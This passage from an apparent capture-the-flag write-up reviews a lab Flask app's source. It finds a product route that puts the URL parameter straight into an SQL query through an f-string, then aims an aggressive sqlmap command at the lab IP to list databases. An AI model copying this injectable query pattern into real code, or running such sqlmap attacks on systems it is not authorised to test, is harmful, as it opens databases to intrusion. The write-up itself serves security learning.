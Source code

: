 ```python
@app.route('/admin', methods=['GET'])
def admin():
    if request.method == 'GET':
        return render_template('admin.html', title='Admin Login')


# Page Not found error handler
@app.errorhandler(404)
def page_not_found(e):
    return render_template('404.html', error=e), 404


@app.errorhandler(500)
def internal_server_error(e):
    return render_template('500.html', error=e), 500


if __name__ == "__main__":
    app.run('0.0.0.0')
```

<br>

If we take a closer look at the **Product Route**, we see something very interesting:

```python
# Product Route
# SQL Query performed here
@app.route('/products/<product_id>', methods=['GET'])
def product(product_id):
    with eng.connect() as con:
        # Executes the SQL Query
        # This should be the vulnerable portion of the application
        rs = con.execute(f"SELECT * FROM product WHERE id={product_id}")
        product_selected = rs.fetchone()  # Returns the entire row in a list
    return render_template('product.html', title=product_selected[1], result=product_selected)
```

It looks like the **product_id** that is supplied in the URL is directly inserted into the SQL query without any input sanitization. This seems to be a potential SQL injection point! There is even a comment left behind that confirms that this is a `vulnerable portion of the application`.

Let's now use `sqlmap` on this endpoint:

```
sqlmap -u http://10.10.103.117/products/1 --level=5 --risk=3 --batch --threads=10 --dbs
```

<img style="float: left;" src="screenshots/screenshot8.png">
